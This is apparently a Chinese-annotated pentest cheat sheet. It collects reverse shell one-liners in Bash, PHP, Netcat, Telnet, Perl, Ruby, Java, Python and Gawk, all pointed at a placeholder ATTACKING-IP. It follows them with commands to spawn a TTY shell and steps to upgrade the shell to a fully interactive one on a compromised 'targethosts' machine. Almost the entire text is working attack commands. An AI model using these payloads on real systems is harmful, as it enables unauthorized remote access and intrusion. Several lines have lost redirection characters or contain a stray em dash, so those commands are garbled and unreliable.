 ### From  Reverse Shell to Spawning a TTY Shell then Upgrade it

* [<em>Reverse shell</em>](#reverse-shell)
* [Spawning a TTY Shell](#spawning-a-tty-shell)
* [Upgrading TTY Shell](#upgrading-tty-shell)
* [Reference](#reference)

* [ChangeLog](#changelog)
#### *Reverse shell*

***Built-in Bash***

```bash
$ exec /bin/bash 0&0 2>&0
$ 0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196


$ exec 5<>/dev/tcp/ATTACKING-IP/80
$ cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:

$ while read line 0<&5; do $line 2>&5 >&5; done
```

```bash
$ bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```

***PHP Reverse Shell***

```PHP
$ php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
```

***Netcat Reverse Shell***

```bash
$ nc -e /bin/sh ATTACKING-IP 80

$ /bin/sh | nc ATTACKING-IP 80

$ rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

***Telnet Reverse Shell***

```bash
$ rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

$ telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

***Perl Reverse Shell***

```PERL
$ perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

*Perl Windows Reverse Shell*

```BASH
$ perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

```BASH
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

***Ruby Reverse Shell***

```RUBY
$ ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

***Java Reverse Shell***

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

***Python Reverse Shell***

```PYTHON
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

***Gawk Reverse Shell***

```SHELL
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```

#### Spawning a TTY Shell

- `python -c 'import pty; pty.spawn("/bin/sh")'`
- `echo os.system('/bin/bash')`
- `/bin/sh -i`
- `perl —e 'exec "/bin/sh";'`
- `perl: exec "/bin/sh";`
- `ruby: exec "/bin/sh"`
- `lua: os.execute('/bin/sh')`
- `exec "/bin/sh"`  From within IRB
- `:!bash` From within vi
- `:set shell=/bin/bash:shell` From with wi

#### Upgrading TTY Shell

1. 升级成 *tty*

```bash
[www-data@targethosts]$ python -c 'import pty;pty.spawn("/bin/bash")'
```

2. 在 *shell* 中设置 *term* 类型为 *kali* 的 *term* 类型

```bash
root@kali# echo $TERM
					 xterm-256color
```

```bash
[www-data@targethosts]$ export TERM=xterm-256color
[www-data@targethosts]$ export SHELL=/bin/bash
```

3. 检查 *term* 的 *rows* 和 *columns*

```shell
root@kali# stty size
					 23		80
```

4. 将得到的 *shell* 放在后台运行

```bash
[www-data@targethosts]$ ^Z
												[1]+ Stopped   nc -lvp 449
												
[www-data@targethosts]$ stty raw -echo;fg
```

接着执行 *reset* 命令进行对 *shell* 初始化，并通过 *stty* 设置 *rows* 和 *columns*

```bash
[www-data@targethosts]$ stty raw -echo;fg
												nc -lvp 449
																		reset
																		
[www-data@targethosts]$ stty rows 24 columns 80
```

***tips*** ： 如果出现 `'xterm-256color': unknown terminal type.`，则说明 *targethosts* 不支持该终端，可以改为 `xterm`。



### Reference

- [upgrade-shell-to-fully-interactive-tty-shell/](https://www.metahackers.pro/upgrade-shell-to-fully-interactive-tty-shell/)
- [reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)



### ChangeLog

- 1910713 init
